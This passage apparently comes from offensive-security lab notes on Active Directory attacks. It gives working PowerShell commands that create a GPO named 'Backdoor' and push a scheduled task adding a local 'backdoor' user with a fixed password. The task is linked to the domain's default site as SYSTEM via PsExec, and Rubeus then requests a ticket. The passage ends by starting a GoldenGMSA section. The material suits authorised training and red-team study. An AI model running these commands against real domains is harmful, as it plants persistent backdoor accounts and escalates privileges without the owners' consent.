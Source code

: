 ```powershell
PS C:\Tools> $gpo = "Backdoor"
PS C:\Tools> New-GPO $gpo
```

Add a scheduled task into Backdoor. When GPO is replicated the scheduled task will replicate.&#x20;

```powershell
# Add a user with GPO
PS C:\Tools> Import-Module .\PowerView_2.ps1
PS C:\Tools> New-GPOImmediateTask -Verbose -Force -TaskName 'Backdoor' -GPODisplayName "Backdoor" -Command C:\Windows\System32\cmd.exe -CommandArguments "/c net user backdoor B@ckdoor123 /add"
```

> Confirm by accessing the `Scheduled Tasks` settings under `Computer Configuration -> Preferences -> Control Panel Settings`. Set Scheduled Task Settings to `Run a new instance in parallel`.

#### Retrieve Replication Site to Root Domain Controller

```powershell
Get-ADDomainController -Server zencorp.ad |Select ServerObjectDN
```

#### Link GPO to Default Site as SYSTEM

```powershell
PS C:\Tools> .\PsExec.exe -s -i powershell.exe
PS C:\Windows\system32> whoami
nt authority\system

$sitePath = "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=INLANEFREIGHT,DC=AD"
New-GPLink -Name "Backdoor" -Target $sitePath -Server dev.zencorp.ad
```

#### Get TGT

```powershell
 .\Rubeus.exe asktgt /user:backdoor /password:'B@ckdoor123' /domain:zencorp.ad /ptt
```

### <mark style="color:yellow;">GoldenGMSA Attack</mark>

Service account with SPNs set can be kerberoasted. **Group Managed Service Accounts (gMSA)** solve this issue by letting **Windows manage the passwords automatically**, removing the need for manual password changes.&#x20;

* **Active Directory (AD)** handles the password rotation **every 30 days**.
* The password is **256 bytes long**, making it extremely hard to crack.
* The password is generated using a **secret stored in the KDS root key object**.

{% hint style="info" %}
Only users or systems **authorized** to access the `msDS-ManagedPassword` attribute can retrieve it. Attackers need access to such an account to extract the gMSA password.
{% endhint %}

```powershell
# Zen student can retrieve password apache-dev
New-ADServiceAccount -Name "apache-dev" -DNSHostName "zencorp.ad" -PrincipalsAllowedToRetrieveManagedPassword zen-student-1 -Enabled $True
```
